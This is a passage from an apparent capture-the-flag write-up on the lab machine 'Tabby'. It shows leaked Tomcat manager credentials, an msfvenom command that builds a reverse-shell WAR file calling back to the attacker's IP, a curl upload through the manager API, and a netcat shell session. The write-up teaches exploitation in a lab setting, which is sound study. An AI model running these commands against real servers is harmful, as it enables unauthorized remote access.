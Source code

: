 ```
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

We can see the sweet sweet creds at the end of file as well as our privileges. After that I am off to find an exploit for a user with our privileges in tomcat. I find an [awesome article](https://medium.com/@cyb0rgs/exploiting-apache-tomcat-manager-script-role-974e4307cd00) with step by step instructions. 

So the exploit is easy. Since we have the manager-script privilege we can use the tomcat API to upload any file that we want. We will be uploading  malicious .WAR(web application resource) file. So a WAR file to a tomcat server is what php is to a apache server(thats how I understood it anyway). It is a web application but written in java. We will upload the file and when we browse to it we will get a connection back to our netcat listener.

Creating a malicious war file with msfvenom.
```
msfvenom -p java/shell_reverse_tcp lhost=YourIP lport=1234 -f war -o pwn.war
```

And then upload the file using tomcat API.

```
curl -v -u tomcat:\$3cureP4s5w0rd123! --upload-file pwn.war http://10.10.10.194:8080/manager/text/deploy?path=/example&update=true
```

**Remember that we will use a backslash as a escape mechanism in the front of our password because it contains a "`$`" which can be interpreted by the terminal as a variable and that will mess up our command.**

Next just start a netcat listener and browse to the path you provided when uploading the file.

```
curl http://10.10.10.194:8080/example


nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from megahosting.htb 54708 received!
python3 -c 'import pty; pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$ whoami
whoami
tomcat
tomcat@tabby:/var/lib/tomcat9$ id
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```
